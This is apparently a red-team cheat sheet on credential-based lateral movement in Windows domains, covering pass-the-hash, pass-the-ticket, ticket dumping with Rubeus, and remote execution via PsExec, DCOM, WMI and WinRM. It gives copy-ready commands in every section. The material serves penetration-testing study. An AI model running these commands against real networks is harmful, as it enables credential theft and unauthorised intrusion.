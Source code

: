 # Credential based lateral movement

## Questions to ask yourself
  *  What authentication protocols are allowed/supported?
  *  Any older hosts/service?
      *  May allow older auth protocols for compatability
      *  Search for known neighbors of hosts with older auth protocols

## Things to remember
  *  Credentials are the easiest form of lateral movement
  *  Any form of credential can often be used
      *  Includes passwords, password hashes, kerberos tickets, etc.
  *  Any admin/management interface may be ripe for lateral movement
      *  This section mostly covers common Windows management implementations

## Useful tools
  *  [`Rubeus`](https://github.com/GhostPack/Rubeus) for requesting, dumping, and passing tickets from Windows
  *  [`impacket-getTGT`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)/[`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for requesting kerberos tickets from Linux
  *  [`impacket-ticketConverter`](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) for converting tickets between `kirbi` and `ccache` formats
  *  [`PsExec`](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)/[`impacket-psexec`](https://github.com/fortra/impacket/blob/master/examples/psexec.py)/[`impacket-smbexec`](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) for code exec via SMB
  *  [`impacket-dcomexec`](https://github.com/fortra/impacket/blob/master/examples/dcomexec.py) for code exec via DCOM
  *  [`wmic`](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic)/[`impacket-wmiexec`](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for code exec via WMI
  *  [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs)/[`evil-winrm`](https://github.com/Hackplayers/evil-winrm) for code exec via WinRM

## Pass the hash
  *  Some authentication mechanisms only rely on the hash of the user's password
      *  Meaning the actual password is not required, only the hash is needed
      *  Steal password hashes and use them to authenticate
  *  Many tools can make use of NT hashes for authentication `GTS`

## Overpass the hash
  *  Use a stolen AES key/NT hash to obtain tickets, then pass the ticket
  *  `Rubeus` or `impacket` for obtaining kerberos tickets using hashes

```
.\Rubeus.exe asktgt /domain:exampleDomain.local /user:bob /rc4:[NT hash]
```

```
impacket-getTGT exampleDomain.local/bob@exampleHostname -hashes [NTLM] -dc-ip 10.0.0.1
export KRB5CCNAME=/home/kali/bob@exampleHostname.ccache
impacket-smbexec exampleDomain.local/bob@exampleHostname -no-pass -k -target-ip 10.0.0.1 -dc-ip 10.0.0.1
```

## Pass the ticket
  *  Acquire kerberos tickets and use them to authenticate
      *  Target must be specified by hostname **NOT** IP address
  *  `Rubeus` for dumping and passing tickets from Windows 
      *  Only one TGT allowed per logon session, purge tickets before injection
  *  `impacket` suite for passing tickets from Linux
      *  `KRB5CCNAME` env variable must be configured to point to ccache file
      *  Add target hostname to `/etc/hosts` or specify target IP

```
.\Rubeus.exe dump
.\Rubeus.exe dump /service:krbtgt
klist purge
.\Rubeus.exe ptt /ticket:[base64 blob]
PS > [IO.File]::WriteAllBytes('C:\path\to\new\ticket.kirbi' [Convert]::FromBase64String('base64 blob'))
```

```
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/path/to/ticket.ccache
impacket-smbexec exampleDomain.local/bob@exampleHostname -no-pass -k -target-ip 10.0.0.1 -dc-ip 10.0.0.1
```

## PsExec
  *  `PsExec` is old, loud, and likely to attract prying eyes
      *  `PsExec.exe` does **NOT** play well within a normal reverse shell
  *  `impacket-psexec` for PsExec-like behavior from linux
      *  Consider `impacket-smbexec` or target a management service instead

```
impacket-psexec exampleDomain.com/bob:password@10.0.0.1
impacket-psexec bob@10.0.0.1 -hashes :[NT hash]
.\PsExec.exe -accepteula -u bob \\exampleHostname cmd.exe
```

## Distributed Component Object Model ([DCOM](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0))
  *  Abuse methods of remote [COM objects](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) to execute commands
      *  [Example covered on ired.team](https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model) leverages [`MMC20.Application`](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/microsoft-management-console-start-page)
      *  Other methods exist, such as [abusing MS Office apps](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
  *  [Hunt for juicy COM object methods](https://www.mandiant.com/resources/blog/hunting-com-objects) for more control over how code exec appears on the target
  *  `impacket-dcomexec` for leveraging DCOM from linux

```
PS > $com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1", "10.0.0.1"))
PS > $com.Document.ActiveView.ExecuteShellCommand("powershell", $null, "-e [BASE64 BLOB]", "7")
```

```
impacket-dcomexec exampleDomain.com/bob:password123@10.0.0.1 -object MMC20
```

## Windows Management Instrumentation ([WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page))
  *  MS implementation of [CIM](https://learn.microsoft.com/en-us/windows/win32/wmisdk/common-information-model) using [DCOM under the hood](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c0088a94-1107-48a5-8d4d-cd16d34de5ef)
  *  [`Invoke-WmiMethod`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/invoke-wmimethod?view=powershell-5.1) or [`Invoke-CimMethod`](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/invoke-cimmethod?view=powershell-5.1) for WMI code exec from powershell
       *  [`PSCredential`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-credential?view=powershell-7.4#example-4) for supplying creds of another user
  *  `wmic` for leveraging WMI from Windows without powershell
  *  `impacket-wmiexec` for leveraging WMI from linux

```
PS > $pass = ConvertTo-SecureString "password" -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential("bob", $pass)
PS > $session = New-CimSession -Cred $cred -ComputerName exampleHostname
PS > Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName "Create" -Arguments @{CommandLine = "notepad.exe"}
PS > Invoke-WmiMethod -Cred $cred -ComputerName exampleHostname -Path Win32_Process -Name Create -ArgumentList "notepad.exe"
```

```
wmic /node:10.0.0.1 /user:bob /password:password123 process call create "notepad.exe"
```

```
impacket-wmiexec exampleDomain.com/bob:password123@10.0.0.1
```

## Windows Remote Management ([WinRM](https://learn.microsoft.com/en-us/windows/win32/WinRM/portal))
  *  MS implementation of [WS-Management](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) (SOAP API) also [exposes WMI data and operations](https://learn.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-and-wmi)
  *  [Powershell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4) for WinRM code exec from powershell
      *  ired.team has a [list of useful commands](https://www.ired.team/offensive-security/lateral-movement/t1028-winrm-for-lateral-movement#additional-useful-commands)
  *  `winrs` for leveraging WinRM from Windows without powershell
  *  `evil-winrm` for leveraging WinRM from linux

```
PS > $session = New-PSSession -ComputerName exampleHostname -Credential $cred
PS > Enter-PSSession -Session $session
PS > Invoke-Command -Session $session { Write-Host "example powershell code" }
```

```
winrs -r:exampleHostname "cmd.exe"
winrs -r:exampleHostname -u:bob -p:password123 "cmd.exe"
```

```
evil-winrm -i 10.0.0.1 -u bob -p password123
```
